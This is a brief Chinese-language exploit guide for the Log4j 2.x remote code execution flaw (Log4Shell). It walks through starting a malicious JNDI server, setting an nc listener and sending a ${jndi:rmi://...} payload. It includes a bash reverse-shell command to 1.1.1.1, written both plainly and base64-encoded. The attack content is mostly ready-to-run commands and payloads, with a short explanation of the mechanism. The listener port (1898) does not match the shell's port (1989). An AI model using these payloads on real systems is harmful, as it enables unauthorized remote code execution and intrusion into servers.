

# Log4j RCE

## 利用条件：

- Apache Log4j 2.x <= 2.14.1

## 利用方法：

### 步骤一：架设恶意JNDI服务
`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "要执行的命令" -A 服务器地址`
```java
base64编码：
bash -i >& /dev/tcp/1.1.1.1/1989 0>&1
反弹shell命令：
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzE5ODkgMD4mMQ==}|{base64,-d}|{bash,-i}
```


### 步骤二：开启监听
`nc -lvp 1898`

### 步骤三：POC
`${jndi:rmi://1.1.1.1:1099/zqjm89}`

## 漏洞原理：
1. Log4j会把 `${}` 括号中的语句作为命令执行。
2. 注入攻击语句经过解析会先访问ldap服务器，然后由ldap解析出我们要的文件名，ldap向HTTP服务器请求获取这个文件，最后网站服务器在本地实例化并执行这个java类，即攻击者的攻击脚本得到执行。